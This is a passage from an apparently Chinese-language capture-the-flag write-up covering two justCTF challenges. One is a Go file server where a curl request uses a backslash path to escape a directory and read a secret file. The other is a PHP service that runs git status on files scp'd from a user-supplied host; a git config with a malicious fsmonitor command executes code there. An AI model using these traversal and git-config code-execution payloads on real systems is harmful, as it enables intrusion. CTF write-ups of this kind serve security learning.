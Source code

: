 ``` go
r.HandleFunc("/files/{bucketId}/{filename}", handleBucket)

bucketPath := filepath.Join("./buckets/", bucketId)
// [...]
filePath := filepath.Join(bucketPath, filename)
```

從網址配對到 bucketId 跟 filename 以後，做 path 的拼接然後去拿檔案，我們的目標是 `buckets/secret_file` 這個檔案。

解法是：

```
curl --path-as-is 'http://gobucket.web.jctf.pro/files/\/secret_file'
```

從討論中看起來應該是 golang 在處理網址配對時不會把 `/\/` 這種東西變成 `///` 之類的，所以 `\` 就變成一個參數，然後在 windows 上面在做 path join 的時候就沒效果，導致最後的結果可以逃出一層資料夾，讀到 secret_file 這個檔案。

底下貼[原文解釋](https://discord.com/channels/656258740252704788/978312189159030805/985700365116776548)筆記一下：

> golang when it parses the http path and resolves stuff like `/../` into `/` etc., doesn't treat a backslash as a slash as some other things might which allows the backslash to end up being a parameter
and (this appears on windows only because of the way it handles paths) when that path parameter ends up being used for constructing a filepath, it can potentially be dangerous as it allows you to skip/escape a directory

## gitara(12 solves)

這題的程式碼如下：

```
 <?php

if (!isset($_POST['domain']) || preg_match('/[^a-z0-9.-]/ims', $_POST['domain']) !== 0) {
    highlight_file(__FILE__);
} else {
    $dir = '/tmp/gitara'.rand();
    mkdir($dir);
    system(" \
cd $dir && \
timeout 2s sshpass -phunter2 scp -o StrictHostKeyChecking=no 'justctf-gitara@$_POST[domain]:*' . && \
timeout 1m git status; \
rm -rf $dir");
}
```

其實目標很明顯，就是 chall server 會用 scp 從你的 server 去複製檔案，結束後執行 `git status`，所以你要利用 git 的一些特性來 RCE。

當時隊友有貼了一個這個 config：

```
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
    logallrefupdates = true
    fsmonitor = "echo \"Pwned as $(id)\">&2; false"
```
